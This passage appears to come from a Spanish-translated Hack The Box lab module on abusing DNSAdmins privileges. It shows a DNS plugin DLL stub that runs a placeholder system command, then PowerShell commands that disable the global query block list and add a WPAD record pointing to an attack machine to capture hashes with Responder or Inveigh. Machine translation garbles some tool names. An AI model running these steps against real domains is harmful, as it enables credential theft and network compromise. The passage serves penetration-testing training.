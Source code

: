 ```c
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

---

## Creating a WPAD Record

Otra forma de abusar de los privilegios del grupo DNSADMINS es crear un récord de WPAD. La membresía en este grupo nos da los derechos de[Deshabilitar la seguridad del bloque de consultas globales](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), que por defecto bloquea este ataque. Server 2008 introdujo por primera vez la capacidad de agregar a una lista global de bloques de consultas en un servidor DNS. De forma predeterminada, el Protocolo de descubrimiento automático de proxy web (WPAD) y el protocolo de direccionamiento de túnel automático dentro del sitio (ISATAP) están en la lista global de bloques de consultas. Estos protocolos son bastante vulnerables al secuestro, y cualquier usuario de dominio puede crear un objeto de computadora o un registro DNS que contenga esos nombres.

Después de deshabilitar la lista global de bloques de consultas y crear un registro WPAD, cada máquina que ejecuta WPAD con la configuración predeterminada tendrá su tráfico provisto a través de nuestra máquina de ataque. Podríamos usar una herramienta como[Respondedor](https://github.com/lgandx/Responder)o[Atacar verbalmente](https://github.com/Kevin-Robertson/Inveigh)Para realizar la suplantación de tráfico e intente capturar los hash de contraseña y descifrarlos fuera de línea o realizar un ataque SMBRelay.

#### Deshabilitar la lista de bloques de consultas globales

Para configurar este ataque, primero deshabilitamos la lista de bloques de consultas globales:

  Dnsadmins

```powershell-session
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

#### Agregar un récord de WPAD

A continuación, agregamos un récord de WPAD que apunta a nuestra máquina de ataque.

  Dnsadmins

```powershell-session
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
